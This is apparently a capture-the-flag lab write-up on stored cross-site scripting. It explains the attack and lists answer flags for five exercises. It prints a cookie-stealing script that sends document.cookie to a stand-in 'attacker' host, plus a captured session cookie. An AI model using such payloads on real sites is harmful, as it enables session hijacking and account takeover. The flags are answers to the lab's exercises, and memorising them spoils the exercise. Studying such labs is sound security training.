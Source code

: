 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```
HTML_T4gs
```
2. Create an alert popup box appear on the page with your document cookies.
```
W3LL_D0N3_LVL2
```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```
websites_can_be_easily_defaced_with_xss
```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```
s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```
5. Post a comment as Jack.
```
c00ki3_stealing_
```

# The Next Steps

- Click **[here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20Stored%20XSS/Stored%20XSS%20Approach)** to see how to move further in a stored XSS attack.

# Scripts used to exploit

- Click below to see which scripts/payloads were used in finding the answers to complete this task:

   - [Question 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/1%20-%20Q2.html)
   - [Question 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/2%20-%20Q3.js)
   - [Question 4](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/3%20-%20Q4.js)
 
